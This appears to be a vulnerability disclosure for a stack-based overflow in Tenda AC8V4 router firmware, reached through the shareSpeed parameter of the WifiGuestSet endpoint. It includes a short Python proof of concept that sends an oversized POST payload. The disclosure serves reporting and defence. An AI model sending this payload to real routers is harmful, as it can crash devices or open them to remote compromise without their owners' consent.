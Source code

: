 # Vulnerability Description

A stack-based overflow vulnerability can be triggered by via the in the `fromSetWifiGusetBasic` function.

## Affected version:
`US_AC8V4.0si_V16.03.34.06` 

To download the firmware: https://www.tenda.com.cn/download/detail-3518.html

# Exploition details:
This vulnerability can be attacked through a remote network. The attacker only needs to send a specially crafted POST request to the target server. In this request, the attacker can pass in a load containing specific data via the shareSpeed parameter, which causes a memory overflow. This attack does not require any user interaction.

<img width="720" alt="image" src="https://github.com/DDizzzy79/Tenda-CVE/assets/72267897/42ad9b0e-66b4-4d7c-a363-41ecd44b5bd8">

call chain : WifiGuestSet->fromSetWifiGusetBasic
# PoC
```python
def exploit_WifiGuestSet():
    url = f"http://{host}/goform/WifiGuestSet"
    data = {
        # b"shareSpeed":b'A'*0x800
        b'shareSpeed':cyclic
    }
    res = requests.post(url=url,data=data)
    print(res.content)
```
